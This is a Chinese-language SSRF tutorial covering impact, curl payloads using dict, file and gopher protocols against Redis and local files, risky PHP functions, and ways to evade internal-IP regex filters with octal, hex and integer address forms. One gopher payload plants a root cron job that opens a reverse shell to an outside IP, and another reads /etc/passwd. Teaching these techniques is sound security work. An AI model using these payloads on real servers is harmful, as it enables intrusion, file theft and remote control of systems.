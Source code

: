 
# SSRF


## 简介

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

## 漏洞危害

SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

## 利用方式

SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的利用和绕过方式。

以curl为例, 可以使用dict协议操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

    curl -vvv 'dict://127.0.0.1:6379/info'

    curl -vvv 'file:///etc/passwd' 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 

## 相关危险函数

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

## 过滤绕过

### 更改IP地址写法

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001
- 合并后两位：1.1.278 / 1.1.755
- 合并后三位：1.278 / 1.755 / 3.14159267
